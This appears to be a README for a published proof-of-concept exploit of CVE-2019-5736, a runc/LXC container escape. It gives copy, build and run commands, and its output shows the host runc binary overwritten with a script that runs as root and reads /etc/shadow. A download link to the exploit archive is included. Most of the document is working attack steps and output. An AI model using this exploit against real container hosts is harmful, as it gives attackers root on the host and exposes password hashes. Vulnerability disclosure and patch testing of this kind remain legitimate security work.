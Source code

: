 ## CVE-2019-5736 ##

This is exploit code for CVE-2019-5736 (and it works for both runc and LXC).
The simplest way to use it is to copy the exploit code into an existing
container, and run `make.sh`. However, you could just as easily create a bad
image and run that.

```console
% docker run --rm --name pwnme -dit ubuntu:18.10 bash
pwnme
% docker cp CVE-2019-5736.tar pwnme:/CVE-2019-5736.tar
```

We need to install `gcc` to build the exploit, and `runc` because we need to
have the shared libraries that `runc` would use. We don't actually use the
`runc` binary itself. For LXC, you would install `lxc` instead of `runc`.

```console
% docker attach pwnme
# apt-get update && apt-get install -y gcc runc
[ snip ]
# tar xf CVE-2019-5736.tar
# ./CVE-2019-5736/make.sh
```

And now, `/bin/bash` in the container will be able to **overwrite the host runc
binary**. Since this binary is often executed by `root`, this allows for
root-level code execution on the host.

```
% docker exec -it pwnme /bin/bash
[+] bad_libseccomp.so booted.
[+] opened ro /proc/self/exe <3>.
[+] constructed fdpath </proc/self/fd/3>
[+] bad_init is ready -- see </tmp/bad_init_log> for logs.
[*] dying to allow /proc/self/exe to be unused...
% cat /usr/sbin/docker-runc
#!/bin/bash
touch /w00t_w00t ; cat /etc/shadow
```

And now if you try to use Docker normally, the malicious script will execute
with root privileges:

```
% docker exec -it pwnme /bin/good_bash
OCI runtime state failed: invalid character 'b' looking for beginning of value: unknown
% file /w00t_w00t
/w00t_w00t: empty
```

And obviously `make.sh` can be modified to make the evil path anything you
like. If you want to get access to the container, use `/bin/good_bash`.

### License ###

```
Copyright (C) 2019 Aleksa Sarai <cyphar@cyphar.com>
Vulnerability discovered by Adam Iwaniuk and Borys Popławski.

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to
deal in the Software without restriction, including without limitation the
rights to use, copy, modify, merge, publish, distribute, sublicense, and/or
sell copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

* The above copyright notice and this permission notice shall be included in
  all copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING
FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS
IN THE SOFTWARE.
```


Download: https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/46369.zip